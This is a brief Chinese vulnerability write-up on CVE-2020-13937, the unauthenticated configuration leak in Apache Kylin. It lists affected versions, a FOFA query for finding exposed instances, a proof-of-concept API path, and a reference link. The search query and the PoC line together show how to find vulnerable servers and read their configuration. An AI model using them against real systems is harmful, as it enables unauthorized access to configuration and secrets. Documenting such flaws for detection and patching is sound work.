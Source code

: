 # Apache Kylin的未授权配置泄露 CVE-2020-13937

### FOFA

app="APACHE-kylin"

### **受影响的版本：**

Apache Kylin 有一个restful api会在没有认可认证的情况下暴露配置信息。

Kylin 2.x.x

Kylin <= 3.1.0

Kylin 4.0.0-alpha

### 漏洞利用

根据漏洞情报

![](image/apache kylin-1.png)

漏洞利用POC为{% em type="red" %}http://xxx.xxx.xxx.xxx/kylin/api/admin/config{% endem %}

![](image/apache kylin-2.png)

### 参考

[CVE-2020-13937|Apache Kylin的未授权配置泄露漏洞，腾讯安全全面支持检测](https://s.tencent.com/research/bsafe/1156.html)